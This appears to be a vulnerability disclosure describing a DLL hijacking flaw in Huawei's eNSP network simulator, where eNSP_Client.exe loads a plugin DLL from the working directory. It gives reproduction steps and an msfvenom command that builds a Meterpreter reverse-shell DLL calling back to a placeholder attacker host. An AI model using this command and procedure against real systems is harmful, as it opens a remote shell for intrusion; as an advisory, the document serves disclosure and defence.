 DLL: eNSP_SimPC_Plugin.dll
Affected Process: eNSP_Client.exe
Tested on: Windows 10 Pro x64 

Description:
NSP is a scalable and graphical network simulation tool platform provided by Huawei, mainly used for software simulation of enterprise network routers and switches, perfectly presenting real device scenarios and supporting large-scale network simulation, providing users with the opportunity to simulate and learn network technology without real devices.
Huawei eNSP_ There is a security vulnerability in V100R003C00SPC100 version, which is caused by the program loading eNSP from the current working directory_ SimPC_ Plugin.dll file. Attackers can exploit this vulnerability to carry out DLL hijacking attacks.

Steps to reproduce:
1. Prepare a backdoor file called eNSP_ SimPC_ Plugin.dll
2. Replace the original eNSP with the backdoor file_ SimPC_ Plugin.dll
3. Run eNSP, the backdoor is successfully called and executed to go online

PoC Code:
msfvenom -p windows/meterpreter/reverse_tcp lhost=IP lport=PORT -f dll -o eNSP_SimPC_Plugin.dll

Screenshots:

![image](https://github.com/12xw/eNSP/assets/94727536/f2e83f30-6dab-4fca-a2b7-42179d86ed28)
![image](https://github.com/12xw/eNSP/assets/94727536/02394ad9-ce59-4644-ad16-9b38aab0985d)
![image](https://github.com/12xw/eNSP/assets/94727536/a333ada1-23da-47a4-b463-2043ff2ebccf)
